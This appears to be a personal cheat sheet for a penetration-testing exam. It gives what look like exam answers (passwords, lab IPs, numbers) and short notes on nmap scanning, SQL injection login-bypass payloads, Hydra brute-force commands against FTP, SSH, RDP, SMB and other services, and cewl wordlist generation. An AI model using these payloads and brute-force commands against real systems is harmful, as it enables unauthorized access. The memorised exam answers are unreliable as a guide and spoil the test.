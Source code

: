 Q-7
Secret123


Q-20 
ip ADDRESS 172.16.0.40

Q-4 
pass- test
4700056

Q-5 450989878899 

Q-12 F/N 201010988818

Q19 ANDERIOD
 IP 172.16.0.38

1876890


### Windows accounts find:
open the windows cmd
```
$ net user
```
### Host finder:
  Zenmap
 
### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

### Nmap Command:

$ nmap IP -sV -sC -p -O

### RDP Remote Desktop Connectiom

which IP remote machine service is running?
```
$ nmap IP -sV
```
## SQL Injection:
cookie based sql

### HTTP Vulnerability:
which http request has vulnerability?
```
$ use owaspzap  GET/POST
```
### Cryptography
```
cryptool
BCtextencoder
hash calc
veracrypt
### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Hydra
```
    hydra -l root -P passwords.txt [-t 32] <IP> ftp
    hydra -L usernames.txt -P pass.txt <IP> mysql
    hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
    hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
    hydra -P common-snmp-community-strings.txt target.com snmp
    hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
    hydra -l root -P passwords.txt <IP> ssh
 ```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
### wireshark
https://unit42.paloaltonetworks.com/using-wireshark-display-filter-expressions/

### 
